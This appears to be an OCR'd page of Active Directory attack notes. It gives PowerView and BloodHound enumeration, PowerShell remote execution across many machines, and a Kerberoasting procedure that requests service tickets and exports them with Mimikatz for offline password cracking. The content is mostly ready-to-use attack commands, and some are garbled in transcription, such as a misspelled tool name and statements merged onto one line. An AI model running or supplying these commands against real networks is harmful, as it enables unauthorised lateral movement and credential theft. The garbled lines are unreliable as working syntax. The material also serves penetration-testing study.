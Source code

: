 > Get services whose configuration can be modified by the current user 
>
> > `Get-ModifiableService -Verbose`

> BloodHund Exec 

> > `Invoke-BloodHund -CollectionMethods All` **Then**
> >
> > `Invoke-BloodHund -CollectionMethods All -ExcludeDC` 

**Remote command Execution**

> ```
> $sess = New-PSSession -ComputerName Server1
> 
> Invoke-Command -Session $sess -ScriptBlock{$proc = Get-Process}
> 
> Invoke-Command -Session $sess -FilePAth C:\AD\Tools\XX.ps1
> 
> Invoke-Command -Session $sess -ScriptBlock {$Proc.Name}
> 
> Enter-PSSession -Session $sess
> ```

> ***Run on Multiple Machines*** 
>
> > `Invoke-Command -FilePath C:\DDFDF.ps1 -ComputerName (Get-Content ServerList.File)`

***Privs Escalation***

> :one: ***Kerberoast***
>
> > :information_desk_person: Offline password decryption : save ticket on HDD and try to decrypt the ticket 
> >
> > :bulb: **ServicePrincipalName** ***is not null*** if the used account is a **services account**
> >
> > **Search for Services Accounts**
> >
> > > ***Powerview***
> > >
> > > > ```powershell
> > > > Get-NetUser -SPN
> > > > ```
> >
> > >  ***AD module***
> > >
> > > > ```powershell
> > > > Get-ADUser -Filter {ServicePrinicpalName -ne "$null"} -Properties ServicePrinicpalName
> > > > ```
> >
> > :one: :one: ***Request a TGS***
> >
> > > **AD Module** 
> > >
> > > > ```powershell
> > > > Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList <ServicePrinicpalNAme>
> > > > 
> > > > klist 
> > > > ```
> > > >
> > > >  Export Ticket to the Disk 
> > > >
> > > > ```powershell
> > > > Invoke-Mimikatz -Command '"kerberos::list /export"'
> > > > ```